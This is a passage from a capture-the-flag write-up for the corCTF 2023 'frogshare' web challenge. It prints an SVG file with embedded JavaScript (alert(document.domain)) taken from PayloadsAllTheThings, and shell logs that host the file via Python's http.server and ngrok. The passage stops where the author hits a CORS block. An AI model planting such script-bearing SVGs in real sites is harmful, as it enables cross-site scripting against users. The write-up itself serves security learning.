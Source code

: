 **According to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-svg), we can use the following payloads:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731152053.png)

**Let's use the first one:**
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
```

To host the SVG payload, we can use Python's `http.server` module and `ngrok` to do port forwarding:

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/frogshare)-[2023.07.31|15:22:41(HKT)]
└> cat payload.svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/frogshare)-[2023.07.31|15:22:44(HKT)]
└> python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/frogshare)-[2023.07.31|15:23:04(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://2eb1-[...].ngrok-free.app -> http://localhost:80            
[...]
```

**Then, update our frog's "SVG url":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731152457.png)

**Go back to our shared frog:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731152558.png)

Wait... Our SVG URL is blocked by CORS (Cross-Origin Resource Sharing) due to SOP (Same Origin Policy)?
